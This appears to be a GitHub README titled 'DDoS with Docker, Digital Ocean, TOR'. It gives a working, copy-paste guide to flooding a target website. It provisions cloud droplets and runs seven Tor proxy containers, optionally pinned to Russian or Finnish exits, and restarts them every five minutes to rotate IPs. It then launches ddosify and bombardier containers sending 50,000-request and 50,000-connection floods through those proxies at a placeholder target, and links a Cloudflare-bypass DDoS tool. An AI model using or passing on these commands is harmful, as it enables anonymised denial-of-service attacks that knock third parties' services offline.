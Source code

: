 # DDoS with Docker, Digital Ocean, TOR.

## Prepare Digital Ocean droplet (Ubuntu)

### Create a new droplet

https://docs.digitalocean.com/products/droplets/how-to/create/

### Allow SSH connections

```sh
sed -i 's/#PubkeyAuthentication/PubkeyAuthentication/g' /etc/ssh/sshd_config && sudo service sshd restart
```

### Install docker

```sh
sudo apt update
sudo apt install -y apt-transport-https ca-certificates curl software-properties-common
curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo apt-key add -
sudo add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/ubuntu focal stable"
apt-cache policy docker-ce
sudo apt install -y docker-ce
sudo systemctl status docker
sudo usermod -aG docker ${USER}
```

### Create tor config files for different exits

Base config
```sh
cat <<EOF > /root/torrc
AutomapHostsOnResolve 1
ControlPort 9051
ControlSocket /etc/tor/run/control
ControlSocketsGroupWritable 1
CookieAuthentication 1
CookieAuthFile /etc/tor/run/control.authcookie
CookieAuthFileGroupReadable 1
DNSPort 5353
DataDirectory /var/lib/tor
ExitPolicy reject *:*
Log notice stderr
RunAsDaemon 0
SocksPort 0.0.0.0:9050 IsolateDestAddr
TransPort 0.0.0.0:9040
User tor
VirtualAddrNetworkIPv4 10.192.0.0/10
EOF
```

Config with tor exit IPs only to Russia
```sh
cp -f /root/torrc /root/torrc_ru
cat <<EOF >>/root/torrc_ru
ExitNodes {ru} StrictNodes 1
EOF
```

Config with tor exit IPs only to Finland
```sh
cp -f /root/torrc /root/torrc_fin
cat <<EOF >>/root/torrc_fin
ExitNodes {fi} StrictNodes 1
EOF
```

### Create and Run tor-proxy docker containers

#### With random tor exits

```sh
for i in $(seq 0 6); do docker create --name tor${i} -it --restart=always -p $(expr 8118 + ${i}):8118 -p $(expr 9050 + ${i}):9050 dperson/torproxy; done
for i in $(seq 0 6); do docker start tor${i}; done
```

#### With Russian tor exits

```sh
for i in $(seq 0 6); do docker create --name tor${i} -it --restart=always \
    -p $(expr 8118 + ${i}):8118 -p $(expr 9050 + ${i}):9050 \
    -v /root/torrc_ru:/etc/tor/torrc:ro dperson/torproxy \
    ; done
for i in $(seq 0 6); do docker start tor${i}; done
```

#### With Finland tor exits

```sh
for i in $(seq 0 6); do docker create --name tor${i} -it --restart=always \
    -p $(expr 8118 + ${i}):8118 -p $(expr 9050 + ${i}):9050 \
    -v /root/torrc_fin:/etc/tor/torrc:ro dperson/torproxy \
    ; done
for i in $(seq 0 6); do docker start tor${i}; done
```

## Configure tor-proxy ip rotation.

1. Run `crontab -e`
2. Select any proposed editor (only for a first run)
3. Add next line to the end `*/5 * * * * for i in $(seq 0 6); do docker restart tor${i} >/dev/null 2>&1; done`

Note, added cron task will reload tor every 5 minutes. Tor network reloading takes about 1 minute.

## Run DDoS

**Note, run one DDoS tool per droplet!**

### Run/re-run tool - DDOSIFY

```sh
for i in $(seq 1 5); do docker kill attack${i}; done
for i in $(seq 1 5); do docker rm attack${i}; done

for i in $(seq 1 5); do docker create --name attack${i} -it --restart=always --network="host" \
    ddosify/ddosify /bin/ddosify -P "http://localhost:$(expr 8118 + ${i})" -T 10 -n 50000 -d 3600 -p HTTPS -m GET -l linear -t <TARGET_TO_ATTACK> \
    ; done

for i in $(seq 1 5); do docker start attack${i}; done
```

### Run/re-run tool - BOMBARDIER

```sh
for i in $(seq 1 5); do docker kill attack${i}; done
for i in $(seq 1 5); do docker rm attack${i}; done

for i in $(seq 1 5); do docker create --name attack${i} -it --restart=always --network="host" \
    --env="https_proxy=http://localhost:$(expr 8118 + ${i})" \
    --env="http_proxy=http://localhost:$(expr 8118 + ${i})" \
    alpine/bombardier -c 50000 -d 1h -l <TARGET_TO_ATTACK> \
    ; done

for i in $(seq 1 5); do docker start attack${i}; done
````

### Run/re-run tool - CF-BYPASS

https://github.com/code-ashram/anonymous-ddos
